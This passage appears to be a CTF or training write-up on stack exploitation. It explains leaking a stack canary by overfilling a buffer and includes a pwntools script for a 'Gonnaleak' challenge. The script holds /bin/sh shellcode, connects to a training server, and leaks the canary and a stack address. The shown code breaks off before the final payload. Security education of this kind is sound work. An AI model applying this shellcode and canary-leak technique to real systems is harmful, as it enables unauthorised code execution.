 To leak stack canary we can give in input to the `read` which fills the local buffer the following content:

```python
"A"*105
```

To completely fill it and to overwrite the null bytes that makes up the padding of the canary. In fact the canary is located right after the local buffer in the stack:

```python
>>> 0x7fffffffe1b0 - 0x7fffffffe218
-104
```

Then the canary gets leaked by the `printf`:

```python
b'output2: A> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALx\xc0q\t\xae\x81p\x12@'
```

And we can extract it with python:

```python
c = output.split(b"A"*105)[1][:7].rjust(8,b"\x00")
print("canary: " + hex(u64(c)))
```

**Gonnaleak** is similar, but one more step is required: we do not have a global buffer, which means that we cannot jump to a fixed address. The obvious solution is to l<u>eak some sort of address from the stack which belongs to the frame of main, which we can use to jump to our local shellcode by doing some math on relative addressing</u>. Full code below.

```python
#!/usr/bin/python3
import sys
from pwn import *

sc = b"\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xDB\x53\x48\x89\xE6\x48\x89\xE2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05"
a = b"A"*105
b = b"B"*136

context.update(arch='amd64', os='linux')
p = remote("training.jinblack.it", 2011)

input("leaking canary...")
p.send(a)                                        

input("[1] press any key to continue")
output = p.recv()
print(b"output1: " + output)
c = output.split(a)[1][:7].rjust(8, b"\x00")
print("canary: " + hex(u64(c)))

input("leaking useful address from the stack...")
p.send(b)    

input("[2] press any key to continue")
output = p.recv()
print(b"output2: " + output)
addr = output.split(b)[1][:7].ljust(8, b"\x00")
straddr = hex(u64(addr))
print("addr: " + straddr + "\n" + str(addr))

aux = int(straddr, 16)
addr = hex(aux - 343)
print("updated addr: " + addr)
```